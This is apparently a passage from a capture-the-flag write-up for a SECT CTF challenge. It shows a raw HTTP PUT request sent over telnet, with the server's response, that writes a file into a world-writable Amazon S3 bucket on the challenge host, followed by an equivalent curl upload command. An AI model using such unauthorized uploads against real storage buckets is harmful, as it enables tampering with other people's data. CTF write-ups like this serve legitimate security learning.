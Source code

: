 ```
$ telnet files.filer.sect.ctf.rocks 80
PUT /abc.txt HTTP/1.1
Host: files.filer.sect.ctf.rocks
Date: Sat, 10 Sep 2016 09:21:02 GMT
Content-Type: text/plain
Content-Length: 32

/files/flag.php
/files/flag.php

HTTP/1.1 200 OK
x-amz-id-2: 3GLe0t1bgnmvrVbZic0CAjd8x5mwPBJRR6stEJj+e6/7x+8tZe0jteImuhxukQKZJFa6z0yOnrY=
x-amz-request-id: 3F732267A35970EC
Date: Sat, 10 Sep 2016 09:21:26 GMT
ETag: "c1f1b2f47ed3ad9c7785dc233fcb1ce5"
Content-Length: 0
Server: AmazonS3
```

Alternatively we can use `curl` for uploading any file:
```
$ curl -s -H "Content-Type: text/plain" http://files.filer.sect.ctf.rocks --upload-file abc.txt
```

References:

[https://docs.aws.amazon.com/AmazonS3/latest/API/RESTBucketPUT.html](https://docs.aws.amazon.com/AmazonS3/latest/API/RESTBucketPUT.html)
